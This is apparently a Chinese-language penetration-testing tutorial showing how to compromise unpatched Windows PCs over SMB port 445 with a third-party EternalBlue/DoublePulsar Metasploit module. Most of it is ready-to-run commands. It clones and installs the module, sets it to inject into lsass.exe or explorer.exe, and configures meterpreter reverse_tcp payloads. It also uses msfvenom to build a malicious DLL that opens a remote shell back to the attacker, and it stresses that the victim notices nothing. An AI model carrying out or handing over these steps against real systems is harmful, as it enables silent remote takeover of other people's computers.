 #利用Metasploit中的Eternalblue和Doublepulsar Exploit远程Windows PC

##如何利用Eternalblue-Doublepulsar完成渗透测试
这个漏洞利用了两个工具“Eternalblue”和“Doublepulsar”的组合，“Eternalblue”它可以作为windows中的后门使用，而“Doublepulsar”则用于在有效载荷的帮助下注入DLL文件。因此，我们将在Metasploit框架中手动添加此漏洞

攻击者：Kali  **IP:192.168.43.196**

victim：所有拥有该漏洞的Windows操作系统  **IP:192.168.43.14**
##首先我需要先通过github获取该漏洞文件，即ruby文件
```
git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit.git
```
![clone](ch2/1/download.png)
然后打开文件夹将eternalblue-doublepulsar.rb文件加载到相对应的路径，只有这么做才可以在Metasploit中添加此漏洞

###需要注意的是，我们需要将eternalblue-doublepulsar.rb文件移动到路径
```
/usr/share/metasploit-Framework/module/exploits/windows/smb
```
还需要观察到这里还有一个名为**deps**的文件夹，后面会用到
![路径](ch2/1/yidong.png)

##接着加载Metasploit开始渗透测试
```
msfconsole
```
该模块通过eternalblue利用SMBv1和SMBv2协议的漏洞。之后，doublepulsar被用于远程注入恶意DLL

Metasploit框架加载完成之后，我们首先输入该命令，使其加载我们刚才添加的漏洞
```
reload_all
```
接下来我们使用该命令搜索刚才添加的漏洞
```
search eternalblue_doublepulsar
```
![搜索](ch2/1/sousuo.png)
找到对应的路径时候我们使用该漏洞
```
use windows/smb/eternalblue_doublepulsar
```
![参数](ch2/1/canshu.png)
###参数讲解
1:***ETERNALBLUEPATH***：该参数的默认路径为/root/eternalblue_doublepulsar-metasploit/deps
此处观察到上面所提到的deps文件夹，因为我是将eternalblue_doublepulsar-metasploit文件放在用户的家目录下面，所以我的默认路径就为/root/eternalblue_doublepulsar-metasploit/deps，如果你是将eternalblue_doublepulsar-metasploit文件放在你的Kali桌面上，路径即为/root/Desktop/eternalblue_doublepulsar-metasploit/deps，以此类推
注意更改路径不能错，不然无法渗透成功

2：***DOUBLEPULSARPATH***：该参数的默认路径为/root/eternalblue_doublepulsar-metasploit/deps，也还是提到了deps文件夹，和上述一样的设置即可

3：***PROCESSINJECT***：该参数默认值为lsass.exe，该参数根据你选择的victim的系统而决定，如果victim的系统为x64，则该参数设置为lsass.exe，如果victim的系统为x86，则该参数设置为explorer.exe

4：***TARGETARCHITECTURE***：该参数描述的是victim的系统结构，即x64还是x86，该参数默认值为x86，如果victim的系统为x64，则该参数设置为x64，如果victim的系统为x86，则该参数设置为x86

5：***RHOST/RHOSTS***：该参数默认值为空，该参数设置的是victim的IP地址

6：***RPORT***：该参数的默认值为445，不需要去更改，因为该漏洞就是利用445端口

7：***WINEPATH*** ：该参数是wine运行的路径，设置DLL文件的位置，不需要修改
![参数设置](ch2/1/canshushezhi.png)

在上述设置全部完成之后，我们还需要设置payload
对与payload的生成，也需要注意victim的系统架构是x64还是x86，我们直接使用***msfvenom***生成即可

x86的payload为：
```
set payload windows/meterpreter/reverse_tcp 
```
x64的payload为：
```
set payload windows/x64/meterpreter/reverse_tcp 
```

完成之后我们接着设置本地的IP地址和本地监听端口，该地址为Kali的IP地址，本地监听端口只要防火墙没有堵塞的端口都可以
```
set LHOST=x.x.x.x

set LPORT=4444
```
![payload设置](ch2/1/payload1.png)
最后我们还记得上面提到的DLL文件吗？
我们也需要根据victim的系统选择生成该DLL文件

x86的DLL文件为：
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=4444 -f dll -o /root/.wine/drive_c/eternal11.dll
```
x64的DLL文件为：
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=4444 -f dll -o /root/.wine/drive_c/eternal11.dll
```
![DLL设置](ch2/1/dll.png)

万事俱备，只欠一条exploit命令
```
epxloit
```
![渗透成功](ch2/1/metasploit.png)

这是正常渗透成功的页面，无需victim任何操作，而且victim毫无反应，任何提示都没有

现在来查看一下victim系统信息
![渗透成功](ch2/1/sysinfo.png)

渗透成功了，是不是很简单，记住渗透过程中的关键点就可以完成这一次渗透测试

Enjoy It!!!

更多优质渗透教程，欢迎访问B站，来关注，投币点赞啊
[B站频道传送门](https://space.bilibili.com/184594996/ "Bilibili")

如果帮助到你了，希望可以得到你的打赏，谢谢